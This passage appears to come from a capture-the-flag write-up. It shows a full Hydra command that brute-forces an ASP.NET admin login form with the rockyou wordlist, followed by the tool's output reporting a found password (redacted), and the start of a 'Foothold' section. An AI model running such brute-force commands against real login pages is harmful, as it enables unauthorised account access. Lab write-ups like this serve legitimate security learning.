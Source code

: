 ```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.99.227 http-form-post '/Account/login.aspx:__VIEWSTATE=Yz2BmKWWmXED1M056DNvSQhT62lTMsJhye52KUnzi5j%2FYknWsMsDcNTgSNiRIP2D0%2Bc5vRnv5V%2BJjLsayVDwL%2FGipfl%2FYYKH9z5aG6v7oPhjdXPFV%2F1TPaFuzULQdV7VKi%2FQ2whj3p5jjcsl0naPMgEzObayz4u6g%2B09OsJe3mU7EaMUwhOL0zl7clQ5odf5BLU6hvYwWyLOTvieZ%2BbgWMfjXaxZa75LXWImGmWDdtx5GsbWohL7CAkW5%2B%2Bb2y%2BZzr%2F9OlBObL7ZFPuzNZ%2FMdB18F4ddVhgppKkgvAKRc4OjIdcNdJ8JYICw0H58CV2J8oNn3xlz6PiXnSDDRRQnwWGcUubFx6yaezYKmkB8McM1s7IG&__EVENTVALIDATION=%2FQ1jgWYDvNlzWDYKERdr1OFYc%2FdP88fNJliWRB6G56lCwhimMmZ%2Bm629vWFW8m1FXpiyykZyzK1hCR3k7QwTE00bvmdzREUCtVMF6kHqC10GEbK2BLBoH4ckTVI4VoLWV%2F7FOt2QmdJL6t%2BdVb3DJpdRPLybAcJN1dMzqpj7zMZRylt%2B&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-21 13:35:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.99.227:80/Account/login.aspx:__VIEWSTATE=Yz2BmKWWmXED1M056DNvSQhT62lTMsJhye52KUnzi5j%2FYknWsMsDcNTgSNiRIP2D0%2Bc5vRnv5V%2BJjLsayVDwL%2FGipfl%2FYYKH9z5aG6v7oPhjdXPFV%2F1TPaFuzULQdV7VKi%2FQ2whj3p5jjcsl0naPMgEzObayz4u6g%2B09OsJe3mU7EaMUwhOL0zl7clQ5odf5BLU6hvYwWyLOTvieZ%2BbgWMfjXaxZa75LXWImGmWDdtx5GsbWohL7CAkW5%2B%2Bb2y%2BZzr%2F9OlBObL7ZFPuzNZ%2FMdB18F4ddVhgppKkgvAKRc4OjIdcNdJ8JYICw0H58CV2J8oNn3xlz6PiXnSDDRRQnwWGcUubFx6yaezYKmkB8McM1s7IG&__EVENTVALIDATION=%2FQ1jgWYDvNlzWDYKERdr1OFYc%2FdP88fNJliWRB6G56lCwhimMmZ%2Bm629vWFW8m1FXpiyykZyzK1hCR3k7QwTE00bvmdzREUCtVMF6kHqC10GEbK2BLBoH4ckTVI4VoLWV%2F7FOt2QmdJL6t%2BdVb3DJpdRPLybAcJN1dMzqpj7zMZRylt%2B&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[STATUS] 937.00 tries/min, 937 tries in 00:01h, 14343462 to do in 255:08h, 16 active
[80][http-post-form] host: 10.10.99.227   login: admin   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-21 13:37:30
```
<br>
<br>

## Foothold  

Now that we're in the admin dashboard, we can start to take a look around and see what we're working with here. Visiting the about page gives us a good idea about the CMS that we have. With that information we can do some research on exploits that we might be able to use.
<br>
<br>
